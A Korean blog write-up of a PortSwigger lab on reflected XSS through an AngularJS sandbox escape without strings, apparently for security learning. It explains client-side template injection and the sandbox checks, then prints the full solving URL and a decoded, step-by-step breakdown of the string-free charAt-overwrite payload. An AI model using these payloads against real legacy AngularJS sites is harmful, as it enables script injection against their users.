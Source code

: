 ```yaml
---
layout: post
title: "Burp Academy-XSS 취약점: Reflected XSS with AngularJS sandbox escape without strings"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XSS취약점]
toc: true
last_modified_at: 2025-03-21 05:55:00 +0900
---
```


# 개요
- 취약점 설명 주소: https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection
- 랩 주소: https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings
- PortSwigger Research: https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs
- 난이도: EXPERT (어려움)

# 클라이언트 템플릿 주입이란?
클라이언트 측 템플릿 주입 취약점은 클라이언트 측 템플릿 프레임워크를 사용하는 애플리케이션이 웹 페이지에 사용자 입력을 동적으로 임베드할 때 발생한다. 페이지를 렌더링할 때 **프레임워크는 템플릿 표현식을 스캔하여 발견되는 모든 표현식을 실행한다.** 공격자는 크로스 사이트 스크립팅(XSS) 공격을 시작하는 악성 템플릿 표현식을 제공하여 이를 악용할 수 있다. 

# AngularJS 샌드박스란? 
AngularJS 샌드박스는 AngularJS 템플릿 표현식에서 `window` 또는 `document` 와 같은 잠재적으로 위험한 객체에 대한 액세스를 방지하는 메커니즘이다. 또한 `__proto__` 와 같은 잠재적으로 위험한 속성에 대한 액세스도 방지한다. AngularJS 팀에서 보안 경계로 간주되지 않음에도 불구하고 더 규모가 큰 개발자 커뮤니티는 일반적으로 다르게 생각한다. 샌드박스를 우회하는 것은 처음에는 어려웠지만 보안 연구원들은 수많은 방법을 발견했다. 결과적으로 결국 AngularJS 샌드박스 기능은 AngularJS 버전 1.6에서 제거되었다. 그러나 많은 레거시 애플리케이션은 여전히 ​​이전 버전의 AngularJS를 사용하고 있으며 결과적으로 취약할 수 있다.

# AngularJS 샌드박스는 어떻게 동작하는가? 
샌드박스는 표현식을 구문 분석하고, JavaScript를 다시 작성한 다음, 다양한 함수를 사용하여 다시 작성된 코드에 위험한 객체가 포함되어 있는지 테스트한다. 예를 들어, 함수 `ensureSafeObject()` 는 주어진 객체가 자기자신을 참조하는지 확인한다. 이는 `window` 객체를 탐지하는 한 가지 방법이다. `Function` 생성자도 거의 같은 방식으로 생성자 속성이 자기자신을 참조하는지 확인하여 탐지된다.

`ensureSafeMemberName()` 함수는 객체의 각 속성의 액세스를 확인하고, `__proto__`나 ` __lookupGetter__`와 같은 위험한 속성이 포함되어 있으면 객체를 차단한다. `ensureSafeFunction()` 함수는 `call()`, `apply()`, `bind()`, `constructor()`함수가 호출되는 것을 방지한다. 

[이 fiddle](https://jsfiddle.net/2zs2yv7o/1/)을 방문하여 `angular.js` 파일의 13275번째 줄에 중단점을 설정하면 샌드박스가 작동하는 것을 직접 볼 수 있다. 변수 `fnString`은 다시 작성된 코드를 포함하고 있으므로, AgularJS가 코드를 어떻게 변환하는지 살펴볼 수 있다.


# AngularJS 샌드박스 이스케이프(탈출)는 어떻게 동작하는가? 
샌드박스 이스케이프는 샌드박스를 속여 악성 표현이 양성이라고 생각하게 하는 것을 포함한다. 가장 잘 알려진 이스케이프는 전역 표현식안에서 수정된 `charAt()` 함수를 사용한다. 

```js
'a'.constructor.prototype.charAt=[].join
```

처음 발견되었을 때 AngularJS는 이 수정을 막지 못했다. 이 공격은 `[].join` 메서드를 사용하여 함수를 덮어쓰는 방식으로 작동하는데, 그러면 `charAt()` 함수가 특정 단일 문자가 아니라 함수에 전송된 모든 문자를 반환한다. AngularJS의 `isIdent()` 함수의 로직으로 인해 단일 문자라고 생각하는 것을 여러 문자와 비교한다. 단일 문자는 항상 여러 문자보다 작으므로 함수 `isIdent()` 는 다음 예에서 볼 수 있듯이 항상 true를 반환한다.

```js
isIdent = function(ch) {
    return ('a' <= ch && ch <= 'z' || 'A' <= ch && ch <= 'Z' || '_' === ch || ch === '$');
}
isIdent('x9=9a9l9e9r9t9(919)')
```

`isIdent()` 함수가 속아 넘어간 후에는 악성 JavaScript를 주입할 수 있다. 예를 들어, AngularJS가 모든 문자를 식별자로 취급하기 때문에  `$eval('x=alert(1)')` 와 같은 표현식이 허용된다. `charAt()` 함수를 덮어쓰면 샌드박스 코드가 실행된 후에만 효과가 발생하므로 AngularJS의 `$eval()` 함수를 사용해야 할 필요가 있다. 그러면 이 기술을 사용하여 샌드박스를 우회하고 임의의 JavaScript 실행을 허용할 수 있다. PortSwigger Research는 [AngularJS 샌드박스를 여러 번 종합적으로 망가뜨렸다](https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs).



# 랩 개요
- 이 랩은 AngularJS를 특이한 방식으로 사용한다. 해당 `$eval`함수를 사용할 수 없고 AngularJS에서 어떤 문자열도 사용할 수 없다.
- 랩을 풀려면, XSS공격을 수행하여 샌드박스를 벗어나 `$eval` 함수를 사용하지 않고 alert창을 실행하면 된다. 

```
This lab uses AngularJS in an unusual way where the $eval function is not available and you will be unable to use any strings in AngularJS.

To solve the lab, perform a cross-site scripting attack that escapes the sandbox and executes the alert function without using the $eval function.
```

# 풀이 
다음 URL에 접근하면 랩이 풀린다. 

https://YOUR-LAB-ID.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1


다음과 같은 결과가 나타나고 alert창이 뜬다.

![](/images/burp-academy-xss-28-1.png)

랩이 풀렸다. 

![](/images/burp-academy-xss-28-success.png)

# 분석

exploit을 분석해보자. URL디코딩한 페이로드는 다음과 같다. 

```
toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

1. 먼저 이 exploit은 따옴표없이 문자열을 만들기 위해 `toString()` 함수를 사용한다. 
2. 그 후에 `String` 의 프로토타입을 얻어 모든 문자열에 적용되는 `charAt`함수를 덮어쓴다(overwrite). 이 것이 AngularJS의 샌드박스를 부순다. 
3. 다음으로, 문자 코드를 포함한 배열이 `orderBy`필터에 전달된다. 그런 다음 다시 `toString()`을 사용하여 문자열과 `String` 생성자 속성을 만들어 필터에 대한 인수를 설정한다. 
4. 마지막으로 `fromCharCode` 메서드를 사용하여 문자 코드를 되어 있는 페이로드를 `x=alert(1)` 문자열로 변환한다. `charAt` 함수가 덮어씌워졌기 때문에 AngularJS는 일반적으로 허용하지 않는 이 코드를 허용한다.

AngularJS를 잘 모르기 때문에 완벽히 이해하지는 못했다. 

※ 나는 개발자 시절에는 vue.js를 사용했으므로 어느정도는 알고 있지만 AngularJS는 전혀 모른다. 2025년 4월기준으로 살펴보면 프론트엔드 도구 전쟁의 승자는 React로 보인다. 가장 인기가 많다. 배운다면 React겠다. 

※ 요새 많은 보이는 Next.js 는 React 라이브러리를 기반으로 개발된 프레임워크다. Next.js는 서버 사이드 렌더링, 정적 사이트 생성, API 개발에 대한 쉬운 솔루션을 제공하는 데 중점을 둔다. 